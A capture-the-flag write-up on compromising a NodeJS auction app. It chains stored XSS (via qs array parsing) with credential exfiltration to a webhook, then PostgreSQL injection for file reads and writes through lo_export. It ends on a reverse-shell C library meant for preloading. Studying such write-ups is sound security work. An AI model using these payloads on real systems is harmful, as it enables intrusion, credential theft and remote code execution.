










## Overview

We are given a NodeJS web application, I decide to just explore the features visually for now, then we can look for vulns!



We can't login, so I select 'Login with OAuth'



Seems we can also register on this, let's do that. I make a user `sealldev`!

After registering there is a user info panel too:


For now, I go back to the home page and press 'Login with OAuth'



I press 'Approve' and we are now authorised.



There's a lot of functionality here, Submissions, Auctions, Bids, and we can submit a resource. 

Viewing an Auction we have the ability to place bids.


Submit Resource looks to be a bot submission:


Now with the features covered visually, let's look at some code!

## Code Review

I love reviewing code!


Firstly before we go looking for vulns, where is the flag?

Looking at the Dockerfile:
```dockerfile
...
# Add readflag binary
COPY config/readflag.c /
RUN gcc -o /readflag /readflag.c -Wimplicit-function-declaration && chmod 4755 /readflag && rm /readflag.c

# Copy flag
COPY flag.txt /root/flag
...
```

Seems we are intended to RCE of some kind to execute `/readflag`.

We have an `oauthServer` a `challenge` server and more, let's look at the `challenge` server.

The layout of `challenge` is as follows:
```
├── bot.js
├── db.js
├── index.js
├── package.json
├── public
│   ├── css
│   │   └── style.css
│   ├── js
│   │   └── main.js
│   └── logo.png
├── routes
│   ├── admin.js
│   ├── api.js
│   └── views.js
└── views
    ├── admin.html
    ├── auction_details.html
    ├── callback.html
    ├── dashboard.html
    ├── layout.html
    ├── login.html
    ├── my_bids.html
    ├── my_submissions.html
    └── submit.html
```

Looking at `index.js` to start:
- Initialises a few libraries (`express`, `nunjucks`, `crypto`, etc)
- Loads some routes from `routes/admin.js`, `routes/api.js` and `routes/views.js`
- Initialises the management of the Session cookie, with `httpOnly` set to `true` and `sameSite` set to `lax`.
- Starts the webserver, express is also set up with `extended: true` (we'll come back to that).

Looking at `db.js`:
- It's using PostgreSQL
- On startup it initialises some tables: `users`, `submissions`, `auctions`, `bids`.
- Creates an `admin` user with a randomly generated base64 charset password.
- Has some other functions, generally just get and insert functions for the various tables.

Looking at `bot.js`:
- Visits the local webserver, then initialises the cookies.
- If not already authed, logs in as `admin`. Then visits the assigned page.
- Running with `puppeteer` and has a lot of args passed to `puppeteer` when visiting.

Now, to look at the routes. Starting with `admin.js`:
- `/admin` displays the admin panel
- `/tables` returns all tables
- `/table` is a POST which has an SQLi vulnerability 👀, it fetches a table with a supplied `tableName` in the format `SELECT * FROM "${tableName}"`.

So if we can get to admin, we have SQLi which could be cool..!

Checking out `api.js`:
- `/config` returns the `OAUTH_CLIENT_ID`
- `/oauthLogin` does some Oauth login process, idk man oauth ain't my strong suit...
- `/login` does a gosh darn logging in
- `/submissions` returns submissions for that user. Has a POST to send a URL to the bot.
- `/submissions/<id>/approve` used by admin to approve submissions.
- `/auctions` send a POST to create an auction, the GET just gets all auctions.
- `/auctions/<id>` gets the auction (by the numeric ID)
- `/auctions/<id>/bids` POST places a big with `placeBid()` and GET gets the current bids.

Finally, `views.js`:
- `/my-bids` gets the `my_bids.html` with the current users bids
- `/my-submissions` gets the current users bot submissions
- `/` renders the `dashboard.html` if authed, otherwise redirect to `/login`
- `/auction/<id>` if authed gets the auction by the supplied ID, then renders the `auction_details.html` with the `auction` object
- `/callback` renders `callback.html`
- `/login` renders `login.html`
- `/submit` renders `submit.html` (if authed)
- `/logout` logs the user out and redirects to `/login`

## Cool, now what?
We need some way to become the `admin` user, we either need to:
- Steal the cookie (looking unlikely with XSS due to the cookie having HttpOnly protections)
- Steal the admin username/pass

There seems to be a way to leak it with `/table` where we can specify the `users` table to get the creds. That would rely upon finding XSS to get `admin` user.

Looking at the functionality around submissions, we can submit data to trigger an XSS on the `my_submissions` page.

Looking at the `my_submissions.html` there is a `safe` template string (which means no filtering!):
```html
  <!-- Pass submissions data as a JSON string -->
  <div id="submissions-data" data-submissions='{{ submissions | dump | safe }}'></div>
  <table class="auction-table" v-if="submissions.length > 0">
```

So any data we send inside `data-submissions` we can use to get XSS!

Let's try a description like `'><div x='` then visit `/my-submissions`:


Great! One small problem... The `/my-submissions` page is only viewable by our user, so we need to find XSS somewhere else... Is there any else that's marked `safe` in the templates?

Yes, in `auction_details.html`:
```html
<!-- Pass the auction data as a JSON string via a data attribute -->
<div id="auction-details-panel" class="rpg-panel" data-auction='{{ auction | dump | safe }}'>
  <div class="panel-header">
```

Do we have anything that controls the `auction` object?

Yes we do, the `/api/auctions/<id>/bids`:
```js
router.post('/auctions/:id/bids', isAuthenticated, async (req, res) => {
  try {
    const auctionId = req.params.id;
    const userId = req.session.userId;
    const { bid } = req.body;

    if (bid.length > 10) {
      return res.status(400).json({ success: false, message: 'Too long' });
    }
    await placeBid(auctionId, userId, bid);
    return res.json({ success: true });
  } catch (err) {
    console.error('Error placing bid:', err);
    const status = err.message.includes('Invalid') ? 400
                  : (err.message.includes('not found') || err.message.includes('closed')) ? 404
                  : 500;
    return res.status(status).json({ success: false, message: err.message || 'Internal server error.' });
  }
});
```

`placeBid` updates the `auction` item!
```js
async function placeBid(auctionId, userId, bidAmount) {
  await db.query(
    "INSERT INTO bids (auctionId, userId, amount) VALUES ($1, $2, $3)",
    [auctionId, userId, bidAmount]
  );
  await db.query(
    "UPDATE auctions SET currentBid = (SELECT MAX(amount) FROM bids WHERE auctionId = $1) WHERE id = $1",
    [auctionId]
  );
}
```

We can also see this reflected on the `/auction/1` page (rendering the auction details):
```html
<div id="auction-details-panel" data-auction="{&quot;id&quot;:1,&quot;resourceid&quot;:1,&quot;startingbid&quot;:100,&quot;currentbid&quot;:&quot;300&quot;,&quot;endtime&quot;:&quot;2025-12-31T23:59:59.000Z&quot;,&quot;createdat&quot;:&quot;2025-03-23T04:22:56.026Z&quot;,&quot;
...
```

Now the problem is our injection is only _10 characters_ (yikes)... We can't realistically get an injection in that...

If you remember earlier, `express` is set with `extended` to `true` in `index.js`.
```js
...
app.use(express.urlencoded({ extended: true }));
...
```

What does this do?
> Enables parsing URL-encoded data with the `qs` library, allowing for rich objects and arrays in the encoded format

For an example:
```
data[]=hithere!
```

As it's parsed by `qs` these objects lack some properties, so how could this be used? Can we bypass that length requirement?

> NOTE: As of express 4.x the somewhat 'rich objects' are supported by default: read more [here](https://github.com/expressjs/express/issues/3039)

## XSS
> Big ups [p4rr4](https://p4rr4.github.io/) for finding this!

To test the theory, let's try with an XSS payload:
```html
test'</div><div x='
```

All this payload is doing is:
- Escaping the single quote
- Closing the `div`
- Making a typical `onerror` alert in an `img` tag
- Make a new `div` with attribute `x` to store the rest of the data

Let's make the request:
```
POST /api/auctions/1/bids HTTP/1.1
...

bid[]=test'%3C/div%3E%3Cimg%20src=x%20onerror=alert(1)%3E%3Cdiv%20x='
```

```json
{"success":true}
```


Thank you Express...

Let's make an exfiltration payload.

## Stealing all the credentials

Now we know the admin can read table's contents with `/table` so let's work on forging a request to steal that, then we can do that over XSS.

```
POST /table HTTP/1.1
...

tableName=users
```

Okay, let's make some basic JS to do that, I just use webhook.site for the exfiltration:
```js
fetch("/table", { 
  credentials: "include", 
  method: "POST", 
  headers: { 
    "Content-Type": "application/x-www-form-urlencoded" 
  }, 
  body: "tableName=users" 
})
.then(r => r.text())
.then(d => fetch("...", { 
  mode: "no-cors", 
  method: "POST", 
  body: d
}));
```

I base64 encode the payload, stick it into an `eval`, and this is the final payload:
```html
test'</div>
 
<div x='
```

Let's send that as a bid, then we can report that auction URL.

I send this request:
```
POST /api/auctions/3/bids HTTP/1.1
...

bid[]=test'%3C/div%3E%3Cimg%20src=x%20onerror=eval(atob(%60Zm...KSk7%60));%3E%3Cdiv%20x='
```

Then I send the report:


Then low and behold, our webhook gets a response:
```json
{
  "success": true,
  "results": [
    {
      "id": 1,
      "username": "admin",
      "password": "Fv0geJKEkZrHMH1M07vguN6b7/pLXXfcQnP3z83xXI0="
    },
    {
      "id": 2,
      "username": "sealldev",
      "password": "oauth_default_password"
    }
  ]
}
```


We can now become admin and start the SQLi journey!

## SQLi
Now we can use those creds to login as admin!



And visit the Admin Panel:


But who cares about that we have SQLi which is **WAY** cooler!

Let's start with the basics, looking at [PayloadAllTheThings for PostgreSQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) we should start by getting the version using `version()` (groundbreaking)

```
POST /table HTTP/1.1
...

tableName=users"%20UNION%20SELECT%20null,null,version()--
```

```json
{
  "success": true,
  "results": [
    {
      "id": 2,
      "username": "sealldev",
      "password": "oauth_default_password"
    },
    {
      "id": 1,
      "username": "admin",
      "password": "Fv0geJKEkZrHMH1M07vguN6b7/pLXXfcQnP3z83xXI0="
    },
    {
      "id": null,
      "username": null,
      "password": "PostgreSQL 17.4 on x86_64-alpine-linux-musl, compiled by gcc (Alpine 14.2.0) 14.2.0, 64-bit"
    }
  ]
}
```

So we are running PostgresSQL 17.4, no known CVEs as its brand new...

Considering we likely need something more as we know the structures of the databases, typical SQLi isn't much good here...

We also can't use a lot of the typical payloads such as multi-query because they filter our `;`'s

```js
router.post("/table", isAdmin, async (req, res) => {
  const { tableName } = req.body;
  try {
    const query = `SELECT * FROM "${tableName}"`;

    if (query.includes(';')) {
      return res
        .status(400)
        .json({ success: false, message: "Multiple queries not allowed!" });
    }

    const results = await runReadOnlyQuery(query);
    res.json({ success: true, results });
  } catch (error) {
    console.error("Table Query Error:", error);
    res.status(500).json({
      success: false,
      message: "Error fetching table data.",
    });
  }
});
```

Let's look at some more fun payloads:

## SQLi File Read

PostgreSQL has the feature to allow you to read files with `pg_read_file` and list directories with `pg_ls_dir`.

Let's try that (from now on I'm going to omit the `POST` stuff as you know it's going to `/table`):
```
users"%20UNION%20SELECT%20null,null,pg_ls_dir('./')--
```

Which responds:
```json
{"success":true,"results":[{"id":null,"username":null,"password":"pg_replslot"},{"id":null,"username":null,"password":"pg_tblspc"},{"id":2,"username":"sealldev","password":"oauth_default_password"},{"id":null,"username":null,"password":"PG_VERSION"},{"id":null,"username":null,"password":"pg_xact"},{"id":null,"username":null,"password":"pg_wal"},{"id":null,"username":null,"password":"pg_hba.conf"},{"id":null,"username":null,"password":"pg_multixact"},{"id":null,"username":null,"password":"pg_twophase"},{"id":null,"username":null,"password":"pg_stat"},{"id":null,"username":null,"password":"pg_dynshmem"},{"id":1,"username":"admin","password":"Fv0geJKEkZrHMH1M07vguN6b7/pLXXfcQnP3z83xXI0="},{"id":null,"username":null,"password":"pg_snapshots"},{"id":null,"username":null,"password":"postgresql.auto.conf"},{"id":null,"username":null,"password":"postmaster.opts"},{"id":null,"username":null,"password":"global"},{"id":null,"username":null,"password":"pg_ident.conf"},{"id":null,"username":null,"password":"pg_commit_ts"},{"id":null,"username":null,"password":"pg_stat_tmp"},{"id":null,"username":null,"password":"pg_notify"},{"id":null,"username":null,"password":"pg_subtrans"},{"id":null,"username":null,"password":"postmaster.pid"},{"id":null,"username":null,"password":"pg_logical"},{"id":null,"username":null,"password":"base"},{"id":null,"username":null,"password":"postgresql.conf"},{"id":null,"username":null,"password":"logfile"},{"id":null,"username":null,"password":"pg_serial"}]}
```

Cool! If you look reeeeeal close you can see the `postgresql.conf` file, let's read that as it might have some juice.

Removing all the commented out lines, this is the only active config:
```
max_connections = 100			# (change requires restart)

shared_buffers = 128MB			# min 128kB
dynamic_shared_memory_type = posix	# the default is usually the first option
max_wal_size = 1GB
min_wal_size = 80MB
log_timezone = UTC

datestyle = 'iso, mdy'
timezone = UTC
lc_messages = C				# locale for system error message
lc_monetary = C				# locale for monetary formatting
lc_numeric = C				# locale for number formatting
lc_time = C				# locale for time formatting
default_text_search_config = 'pg_catalog.english'
listen_addresses = '*'
```

There wasn't any creds or anything of interest...

Ok, so can we path traverse?
```
users"%20UNION%20SELECT%20null,null,pg_read_file('./../../../../../../etc/passwd')--
```

```
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
postgres:x:70:70:PostgreSQL user:/var/lib/postgresql:/bin/sh
```

Yes we can! Ok, can we just read the flag?

```
users"%20UNION%20SELECT%20null,null,pg_read_file('./../../../../../../root/flag')--
```

```json
{"success":false,"message":"Error fetching table data."}
```

No, we can't. Unfortunately `postgres` uses its own user without perms to `/root` :&lt;

So we can read files but not a lot to read...

## SQLi File Write

Seems we can also write files (thanks PayloadAllTheThings):
```sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
```

I had some trouble doing this and got some help from a blog post (which we will be talking about soon) but we can do file write like this:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133333,'test'))%20AS%20text)--
```

```json
{"id":null,"username":null,"password":"133333"},
```

This assigns the content 'test' to the ID `133333`, we can then use `lo_export` to save it to a file:
```
tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133333,'/tmp/test'))%20AS%20text)--
```

```json
{"id":null,"username":null,"password":"1"}
```

If the file gets too big, you need to use a `lo_put` in-between.

Checking the docker container with the file read from earlier:
```
tableName=users"%20UNION%20SELECT%20null,null,pg_read_file('./../../../../../../tmp/test')--
```

```json
{"id":null,"username":null,"password":"test"},
```

And we got our content!

So.............. now what?

## PostgreSQL RCE via File Write

This [one specific blog](https://adeadfed.com/posts/postgresql-select-only-rce/) that I found by pure luck was the final puzzle piece to this solve. I highly recommend reading it as it will go in a bit more detail than me (and the technique is very cool to read about). Giant shoutout to `@adeadfed`.

They also had the same problem:
> A while ago I stumbled upon a very specific instance of a Postgres SELECT SQLi. The DB data was of no worth, and, to add an insult to injury, you could not even use any of the common RCE vectors! The queries would fail with the same error message: `cannot insert multiple commands into a prepared statement`

The blog mentions a vector from modifying the `postgresql.conf` with some particularly juicy lines:
```
...
# - Shared Library Preloading -

#local_preload_libraries = ''
#session_preload_libraries = ''
#shared_preload_libraries = ''	# (change requires restart)
...

# - Other Defaults -

#dynamic_library_path = '$libdir'
...
```

As to quote from this very well written blog:
> All of these parameters (despite having some differences) specify the libraries’ names, which the PostgreSQL server will preload from the directory set in `dynamic_library_path`.

So, if we can:
- Build our own malicious `.so`
- Drop it onto the machine
- Update the config to load it
- Reload the config to trigger it
- Profit??

## Testing the theory

### Making a working `.so`

This took me **_a lot_** longer than I'd like to admit due to 2 very silly issues:
- I had not forwarded a port (rookie mistake)
- Docker without a specific arch, with `gcc`, on a M1 Mac (triple oopsie, don't do it on a Mac kids)

My teammates actually ended up beating me to the punch on this after I went at it for an hour and I had to play catchup...

The blog post above has a sample revshell payload:
```c
 #include <stdio.h>
 #include <sys/socket.h>
 #include <sys/types.h>
 #include <stdlib.h>
 #include <unistd.h>
 #include <netinet/in.h>
 #include <arpa/inet.h>
 #include "postgres.h"
 #include "fmgr.h"
    
 #ifdef PG_MODULE_MAGIC
 PG_MODULE_MAGIC;
 #endif
    
 void _init() {
     /*
         code taken from https://www.revshells.com/
     */
    
     int port = 8888;
     struct sockaddr_in revsockaddr;
    
     int sockt = socket(AF_INET, SOCK_STREAM, 0);
     revsockaddr.sin_family = AF_INET;       
     revsockaddr.sin_port = htons(port);
     revsockaddr.sin_addr.s_addr = inet_addr("172.23.16.1");
    
     connect(sockt, (struct sockaddr *) &revsockaddr, 
     sizeof(revsockaddr));
     dup2(sockt, 0);
     dup2(sockt, 1);
     dup2(sockt, 2);
    
     char * const argv[] = {"/bin/bash", NULL};
     execve("/bin/bash", argv, NULL);
 }
```

